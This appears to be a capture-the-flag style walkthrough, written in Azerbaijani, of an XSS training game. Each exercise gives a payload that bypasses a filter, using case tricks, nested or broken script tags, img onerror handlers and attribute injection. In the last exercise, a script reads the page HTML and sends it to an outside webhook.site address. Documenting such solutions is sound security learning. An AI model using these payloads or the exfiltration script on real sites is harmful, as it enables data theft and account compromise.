 Exercise 1 – A Truly Disruptive Startup
saytın axtarış bölməsində bu kodu(```<script>success()</script>```) yazırıq və axtar düyməsinə klikləyirik.
sayt xss hücumundan müdafiə olunmadığı üçün hücumumuz uğurlu olacaq.

Exercise 2 – No Script Allowed
ikinci tapşırıqda server yazdığımız kodun başındakı scripti təmizləyir.Serveri aldatmağımız üçün belə bir kod yazmağımız kifayətdir.```</script><script>success()</script>```


Exercise 3 – One More Time, Like You Mean It
üçüncü tapşırıqda yazdığımız kodun hər iki tərəfindəki script teqini silir.```<scrscriptipt>alert(1)</scrscriptipt> ```


Exercise 4 – An Open-and-Shut Case
server daxil olunan koddakı script teglərini təmizləyir.Yazılışda biraz dəyişiklik etsək müdafiəni aşa bilərik.```<ScRiPt>success()</sCriPt>  ```      

Exercise 5 – Time to Mix Things Up
5-ci tapşırıqda server daxil olunan script və SCRİPT teqlərini təmizləyir.```<ScRiPt>success()</sCriPt>```

Exercise 6 – A Picture is Worth a Thousand Words
6-cı tapşırıqda server script teqini yazılışından asılı olmayaraq təmizlədiyindən biz başqa teqlərdən istifadə etməliyik.        ```<image src =q onerror=success()>```

Exercise 7 – Between a Rock And a Hard Place
        ```<button onClick="success()">Submit</button>```

Exercise 8 – Angle of Death
        ```<!--<img src="--><img src=x onerror=javascript:success()//">```

Exercise 10 – In the Wrong Place at the Wrong Time
       ``` "<img src=/ onerror="success()" />```

Exercise 11 – You Can't Win 'em All
      ```  "" onerror="success()"```

Exercise 12 – When All is Said and Done
       ``` ' onload=success()```

Exercise 14 – Here Today and Gone Tomorrow
axtarış yerində hər hansı bir şey axtarırıq.Sonra dili dəyişdiririk.Url də language-i dəyişdiririk.Səyfənin page source -nu açırıq.b
Burda languagenin dəyişdiyini görürük.Bu xss inyeksiya açığının ola biləcəyi deməkdir
```http://caloogle.xyz:4140/search?q=bdhehegdhg&lang=en%20onload=success()```

Exercise 15 – The Early Bird Catches the Worm
       ``` </script> <img src=/ onerror=success() /> <script>```

Exercise 16 – Tying Up Loose Ends
       ``` <<<///scrip<<//script>>t>>><img src =q onerror=success()>```

Exercise 17 – Take a Page Out of Their Book
        ```function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}

send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')```
